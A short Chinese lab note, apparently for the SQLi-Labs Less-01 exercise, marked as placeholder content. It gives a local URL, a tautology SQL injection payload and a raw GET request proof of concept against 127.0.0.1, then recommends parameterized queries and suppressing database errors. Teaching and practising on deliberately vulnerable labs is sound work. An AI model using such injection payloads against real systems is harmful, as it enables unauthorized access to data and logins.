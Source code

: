 ```yaml
---
title: LESS-01 登录绕过
---
```


# LESS-01 登录绕过（占位示例）

**目标**：演示登录输入点的 SQL 注入复现与修复建议（占位内容）。

## 简短复现步骤（占位）
1. 访问：`http://127.0.0.1/sqlilabs/Less-01/?id=1`
2. Payload 示例（占位）：`' OR '1'='1' --+`

## PoC（占位）
GET /sqlilabs/Less-01/?id=1' OR '1'='1' --+ HTTP/1.1
Host: 127.0.0.1

## 修复建议
- 使用参数化查询（Prepared Statements）
- 最小化数据库错误输出
